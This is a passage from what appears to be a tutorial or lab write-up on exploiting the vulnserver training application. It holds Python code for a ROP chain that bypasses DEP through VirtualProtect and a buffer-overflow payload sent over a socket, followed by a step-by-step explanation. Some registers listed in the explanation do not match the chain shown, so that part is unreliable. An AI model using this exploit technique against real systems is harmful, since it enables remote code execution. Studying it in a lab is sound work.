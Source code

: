 ```python
# EDX - Setup Protection flag (0x40) for VirtualProtect
rop += struct.pack("<I", 0x75d91838)  # POP EAX # RETN [KERNELBASE.dll]
rop += struct.pack("<I", 0xffffffc0)  # Load -0x40 into EAX
rop += struct.pack("<I", 0x76505808)  # NEG EAX # RETN [KERNEL32.DLL] (EAX = 0x40)
rop += struct.pack("<I", 0x77d9e6c0)  # XCHG EAX,EDX # RETN [ntdll.dll] (EDX = 0x40)
# ECX - Setup lpflOldProtect parameter for VirtualProtect
rop += struct.pack("<I", 0x775f94ee)  # POP ECX # RETN [msvcrt.dll]
rop += struct.pack("<I", 0x7653a3c1)  # &Writable location [KERNEL32.DLL] (ECX = ptr)
# EDI - Setup Return Address (used as ROP NOP here)
rop += struct.pack("<I", 0x76fe83f7)  # POP EDI # RETN [WS2_32.DLL]
rop += struct.pack("<I", 0x7650580a)  # RETN (ROP NOP) [KERNEL32.DLL]
# ESI - Setup Pointer to JMP [EAX] gadget (used after PUSHAD)
rop += struct.pack("<I", 0x76525760)  # POP ESI # RETN [KERNEL32.DLL]
rop += struct.pack("<I", 0x75e95833)  # JMP [EAX] [KERNELBASE.dll]
# EAX - Setup Pointer to VirtualProtect IAT entry
rop += struct.pack("<I", 0x75ee5082)  # POP EAX # RETN [KERNELBASE.dll]
rop += struct.pack("<I", 0x6250609c)  # ptr to &VirtualProtect() [IAT essfunc.dll]
# PUSHAD - Push registers to stack for VirtualProtect call
rop += struct.pack("<I", 0x775d6f67)  # PUSHAD # RETN [msvcrt.dll]
# JMP ESP - Return address after VirtualProtect, jumps to shellcode
rop += struct.pack("<I", 0x625011c7)  # ptr to 'jmp esp' [essfunc.dll]

# Add NOP sled and shellcode
nop = b"\x90" * 16
final_rop = rop + nop + buf # Note: Place shellcode 'buf' after NOPs

# Build the final payload
payload = VULNSRVR_CMD
payload += b"A" * OFFSET
payload += final_rop # Use the ROP chain including NOPs and shellcode
payload += b"C" * (TOTAL_BUFFER_LEN - len(payload)) # Padding

# Send the exploit
with socket.create_connection(target) as sock:
    sock.recv(512)  # Welcome message
    sent = sock.send(payload)
    print(f"sent {sent} bytes")
    print("[x] Exploit sent")
```

## 8. Understanding How the Exploit Works

This exploit uses a `JMP [EAX]` technique combined with `PUSHAD` to call `VirtualProtect` and make our shellcode executable:

1. The initial buffer fills memory until it overwrites the saved `EIP` register at the `2003` byte offset.
2. EIP is overwritten with the address of the first gadget in our ROP chain (e.g., the `POP EBP` gadget used for alignment/setup).
3. The ROP chain executes sequentially: Gadgets pop values into `EBP`, `EBX`, `EDX`, `EBX`, `ESP`, `EBP`, `ESI`, `EDI`, setting them up according to our plan.
4. Crucially, just before `PUSHAD`:
- `EAX` holds the address of the VirtualProtect IAT pointer (`0x6250609c`).
- `ESI` holds the address of a `JMP DWORD PTR [EAX]` gadget (`0x75e95833`).
- `EBX`, `EDX`, `ECX` hold the required parameters for `VirtualProtect` (`dwSize`, `flNewProtect`, `lpflOldProtect`).
- `EDI` and `EBP` hold placeholders or `ROP NOP`s.
5. The `PUSHAD` instruction (`0x775d6f67`) executes. It pushes the current values of `EAX`, `ECX`, `EDX`, `EBX`, `ESP` (original value before `PUSHAD`), `EBP`, `ESI`, `EDI` onto the stack. This arranges the parameters needed by `VirtualProtect` at known offsets from the current stack pointer `ESP`.
